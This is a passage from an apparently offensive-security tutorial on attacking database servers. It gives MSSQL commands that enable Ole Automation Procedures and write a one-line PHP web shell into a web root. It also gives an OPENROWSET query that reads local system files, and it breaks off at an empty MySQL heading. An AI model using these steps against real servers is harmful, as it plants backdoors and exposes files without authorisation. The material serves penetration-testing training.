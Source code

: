 To write files using `MSSQL`, we need to enable [Ole Automation Procedures](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/ole-automation-procedures-server-configuration-option), which requires admin privileges, and then execute some stored procedures to create the file:

#### <mark style="color:green;">**MSSQL - Enable Ole Automation Procedures**</mark>

```cmd-session
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```

#### <mark style="color:green;">**MSSQL - Create a File**</mark>

<pre class="language-cmd-session" data-full-width="true"><code class="lang-cmd-session"><strong>1> DECLARE @OLE INT
</strong>2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '&#x3C;?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
</code></pre>

***

### <mark style="color:blue;">Read Local Files</mark>

By default, `MSSQL` allows file read on any file in the operating system to which the account has read access. We can use the following SQL query:

#### <mark style="color:green;">**Read Local Files in MSSQL**</mark>

<pre class="language-cmd-session" data-full-width="true"><code class="lang-cmd-session"><strong>1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
</strong>2> GO

BulkColumn

</code></pre>

As we previously mentioned, by default a `MySQL` installation does not allow arbitrary file read, but if the correct settings are in place and with the appropriate privileges, we can read files using the following methods:

#### <mark style="color:green;">**MySQL - Read Local Files in MySQL**</mark>

